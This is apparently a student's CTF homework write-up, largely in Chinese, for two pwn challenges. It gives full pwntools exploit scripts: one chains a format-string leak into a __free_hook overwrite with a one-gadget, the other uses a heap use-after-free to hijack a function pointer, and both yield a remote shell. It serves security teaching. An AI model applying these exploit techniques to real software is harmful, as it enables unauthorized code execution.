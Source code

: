 hw4
===

## fmtfun4u

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
FORTIFY:  Enabled
```

### concept

先藉由 stack 上的值 leak 出 __libc_start_main+241 位置，接著可以推算出 libc 的 base address

![](https://i.imgur.com/35Sx9kz.png)

因為 for loop 中可以做 format string 的次數不多，所以我們先將 i 的值改大一點，方便之後可以多做幾次 format string

使用 argv chain 來修改 i 的值，注意 argv[0] 的 offset 不固定，所以用 argv 的位置計算 offset

i 的 address 在 rbp - 4 大小為 1 byte

![](https://i.imgur.com/LW6ueah.png)

利用 stack 上 0040 的位置作為 format string 的參數將 0x7fffffffe5d8 的值改為 i 的 address，接著再利用 0248 的位置再修改 i 的值

![](https://i.imgur.com/KYC5RbR.jpg)

如此即可達成可以多次 format string 的目的

原本是想要寫 rop chain 然後在 vfprintf ret 的時候跳過去

不過參考大大筆記後，發現一個更快的做法是將 ```__free_hook``` 改成 one gadget，接著 print 65537 個字元觸發 ```free``` 即可獲得 shell

https://github.com/Naetw/CTF-pwn-tips#hijack-hook-function

https://github.com/david942j/one_gadget

### exploit

```python
#!/usr/bin/env python

from pwn import *

r = remote("csie.ctf.tw", 10136)
#r = process('./fmtfun4u')
context.arch = 'amd64'

def fmt(pre, val, idx, byte):
    if pre < val:
        res = '%{}c'.format(val - pre)
    elif pre == val:
        res = ''
    else:
        res = '%{}c'.format(val - pre + 256 ** byte)
    form = {1: 'hhn', 2: 'hn', 4: 'n'}
    res += '%{}${}'.format(idx, form[byte])
    return res

def crack(payload):
    # log.info('payload length: {}'.format(len(payload)))
    r.sendafter(':', payload)
    return r.recvline()[:-1]

def write_any(argv, target, val):
    crack(fmt(0, argv & 0xffff, 25, 2))
    crack(fmt(0, target & 0xffff, 39, 2))
    crack(fmt(0, (argv + 2) & 0xffff, 25, 2))
    crack(fmt(0, (target >> 16) & 0xffff, 39, 2))
    crack(fmt(0, (argv + 4) & 0xffff, 25, 2))
    crack(fmt(0, (target >> 32) & 0xffff, 39, 2))
    crack(fmt(0, val, 37, 2))

# raw_input('#')

libc = crack('%9$p')
libc = int(libc, 16) - 240 - 0x20740
log.info('address of libc base: {}'.format(hex(libc)))
free_hook = libc + 0x3c67a8
log.info('address of free_hook: {}'.format(hex(free_hook)))
argv = crack('%11$p')
log.info('address of argv: {}'.format(argv))
argv = int(argv, 16)
i_addr = argv - 236
log.info('address of i: {}'.format(hex(i_addr)))
crack(fmt(0, i_addr & 0xffff, 11, 2))
crack(fmt(0, 255, 37, 1))

magic_gadget = libc + 0xf0274

write_any(argv, free_hook, magic_gadget & 0xffff)
write_any(argv, free_hook + 2, (magic_gadget >> 16) & 0xffff)
write_any(argv, free_hook + 4, (magic_gadget >> 32) & 0xffff)

r.sendafter(':', "%65537c")

r.interactive()
```

### flag

```FLAG{FEED_MY_TURTLE}```

## hacknote2

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

### concept

首先 malloc 兩塊比 note struct size 還大的 content 接著把他們 free 掉

之後 malloc 一塊 content 大小為 note struct size 的 memory 根據 fast bin 他的 content 會拿到之前 free 掉的 chunk，存在 **use after free** 的漏洞

將 (*printnote)() 填入 print_note_content 的 address 改掉 *content 為 atoi 的 got 接著 call print_note 即可藉此 address 算出 libc base address

再來 malloc 一塊比剛剛兩個都大的 memory 接著 free 掉，再 malloc note struct size 就可以直接蓋掉先前的 note 並直接把 (*printnote)() 改為 one gadget 接著 call print_note 就可以獲得 shell

### exploit

```python
#!/usr/bin/env python

from pwn import *

r = remote("csie.ctf.tw", 10139)
# r = process('./hacknote2')

def add_note(sz, data):
    r.sendafter(':', '1')
    r.sendafter(':', str(sz))
    r.sendafter(':', str(data))

def del_note(idx):
    r.sendafter(':', '2')
    r.sendafter(':', str(idx))

def print_note(idx):
    r.sendafter(':', '3')
    r.sendafter(':', str(idx) + '\n')

#raw_input('#')

print_addr = 0x400886
atoi_got = 0x602068

add_note(40, 'lala')
add_note(40, 'gaga')
del_note(0)
del_note(1)
add_note(16, p64(print_addr) + p64(atoi_got))
print_note(0)
libc = u64(r.recvline()[:-1].ljust(8, '\x00')) - 0x36e80
log.info('libc base address: {}'.format(hex(libc)))
del_note(2)

add_note(80, 'aaaa')
del_note(3)
add_note(16, p64(libc + 0xf1117))
print_note(0)

r.interactive()
```

### flag

```FLAG{DEATHNOTE!!!!}```
